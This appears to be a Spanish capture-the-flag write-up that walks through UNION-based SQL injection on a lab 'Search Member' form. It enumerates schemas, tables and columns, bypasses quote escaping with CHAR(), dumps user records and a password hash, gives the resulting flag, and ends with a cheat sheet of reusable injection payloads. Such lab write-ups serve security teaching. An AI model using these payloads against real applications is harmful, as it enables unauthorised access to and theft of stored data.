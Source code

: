 ## Search Member Form Injection

### 1. Mostar nombre de la base de datos actual

Este comando muestra la base de datos actual que se está utilizando.

```
1 UNION SELECT database(), NULL --
```

- ```database()```: Función MariaDB que devuelve el nombre de la base de datos actual.
- ```NULL```: Se selecciona un valor nulo para igualar el número de columnas de la consulta original, en este caso la informacion la va a dar en el apartado "First name" y el NULL es para el apartado "Surname".

### 2. Listar todas las tablas de la base de datos actual

Este comando devuelve una lista de todas las tablas en la base de datos actual a la que se ha conectado el atacante.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = database() --
```

- ```1```: Selección de la primera columna de la consulta (en este caso, el número 1 es utilizado para igualar el número de columnas en la consulta original, se necesita que se devuelva el usuario 1 y la siguiente consulta con UNION).
</br>
    <img src="./user_sql.png" style="width:150px;">
</br>
- ```UNION```: Operador SQL utilizado para combinar los resultados de múltiples consultas.
- ```SELECT``` table_name, NULL: El atacante está seleccionando el nombre de las tablas (table_name) y un valor nulo en la segunda columna. El valor nulo es necesario para igualar el número de columnas con la consulta original.
- ```FROM``` information_schema.tables: El information_schema es una base de datos especial en MariaDB que contiene información sobre las bases de datos, tablas, columnas, etc. tables es una vista que contiene los nombres de todas las tablas de la base de datos.
- ```--```: Comentario para ocultar el resto de la consulta original (opcional).

### 3. Listar las columnas de una tabla en la base de datos actual
Este comando muestra las columnas de una tabla en la base de datos actual.

```
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = CHAR(117, 115, 101, 114, 115) --
```

- ```CHAR(117, 115, 101, 114, 115)```: Este comando convierte los valores numéricos a caracteres ASCII, lo que da como resultado 'users'. Este es el nombre de la tabla de la que se desea obtener las columnas.

> [!CAUTION]
> ¿Por que uso ASCII en vez de ```'users'``` directamente. Si utilizas ```'users'```, aparece este error: ```You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'users\' --' at line 1```. Eso se debe a una forma común de protección contra inyecciones SQL conocida como "escapado de caracteres". En la mayoría de los sistemas de gestión de bases de datos (DBMS), se utiliza una técnica de escapado para prevenir ataques de inyección SQL, donde los caracteres especiales como las comillas simples (') o dobles (") se preceden por una barra invertida (\) para indicar que esos caracteres deben ser tratados literalmente y no como parte de una expresión SQL. Con carcteres ASCII se puede evitar esta protección.

- ```FROM information_schema.columns```: Esta vista contiene información sobre las columnas de las tablas.
- ```WHERE table_name = 'users'```: Filtra las columnas de la tabla users.

### 4. Mostrar contenido de una columna de una tabla en la base de datos actual
Este comando devuelve el contenido de una columna específica, en este caso, de la tabla users en la base de datos actual.

```1 UNION SELECT first_name, last_name FROM users --```

- ```first_name```: El atacante está solicitando el contenido de la columna first_name de la tabla users.
- ```last_name```: El atacante está solicitando el contenido de la columna last_name de la tabla users.
- ```FROM users```: Especifica la tabla users de la base de datos actual.

Si utilizamos este comando vemos todos los nombres de los usuarios y vemos que uno tiene el nombre GetTheFlag

</br>
    <img src="./name_list.png" style="width:300px;">

</br>

Vemos el comentario que tiene ese usuario con el comando ```1 UNION SELECT first_name, Commentaire FROM users --``` y aparece el siguiente mensaje:

`Decrypt this password -> then lower all the char. Sh256 on it and it's good !`

Con el comando ```1 UNION SELECT first_name, countersign FROM users --``` vemos que la contraseña encriptada es: ```5ff9d0165b4f92b14994e5c685cdce28```, que parece algoritmo de hashing MD5. Si probamos a desencriptarlo queda como ```FortyTwo```.

Como dice el mensaje, pasamos todo a minúsculas (```fortytwo```) y lo encriptamos con algoritmo de hash SH256, resultando finalmente en la flag que buscamos.

#### ```10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5```













## Comandos útiles para injeccion SQL

### Listar tablas de una base de datos específica
Este comando muestra todas las tablas en una base de datos específica, en este caso, la base de datos llamada Member_Sql_Injection.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110) --
```

- ```CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)```: Esta función CHAR() convierte una secuencia de valores numéricos en caracteres ASCII. En este caso, se traduce a 'Member_Sql_Injection'.
- ```WHERE table_schema = 'Member_Sql_Injection'```: Filtra las tablas de la base de datos Member_Sql_Injection.

### Listar todas las bases de datos

Este comando muestra una lista de todas las bases de datos disponibles en el servidor MariaDB.

```
1 UNION SELECT schema_name, NULL FROM information_schema.schemata --
```

- ```schema_name```: Devuelve el nombre de cada base de datos.
- ```FROM information_schema.schemata```: El information_schema.schemata es una vista que contiene información sobre todas las bases de datos en el servidor MariaDB.

### Listar todas las tablas de todas las bases de datos

Este comando de inyección SQL permite listar todas las tablas en todas las bases de datos presentes en el servidor. Se utiliza accediendo a la tabla ```information_schema.tables```, que almacena metadatos sobre todas las tablas del sistema.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables --
```

- ```table_name```: Especifica que queremos obtener el nombre de las tablas.

- ```information_schema.tables```: Es una tabla del esquema de sistema que contiene metadatos de todas las tablas disponibles en el servidor. Incluye tablas de todas las bases de datos.

### Listar las columnas de una tabla en una base de datos específica
Este comando muestra las columnas de una tabla de una base de datos específica. En este caso, la base de datos es Member_Sql_Injection y la tabla es users.

```
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'Member_Sql_Injection' --
```

- ```WHERE table_name = 'users' AND table_schema = 'Member_Sql_Injection'```: Filtra las columnas de la tabla users en la base de datos Member_Sql_Injection.

### Mostrar contenido de una columna de una tabla en una base de datos específica
Este comando muestra el contenido de la columna username de la tabla users en la base de datos Member_Sql_Injection.

```
1 UNION SELECT first_name, NULL FROM Member_Sql_Injection.users -- 
```

- ```Member_Sql_Injection.users```: Especifica la base de datos Member_Sql_Injection y la tabla users.

- ```first_name```: Se selecciona el contenido de la columna first_name.
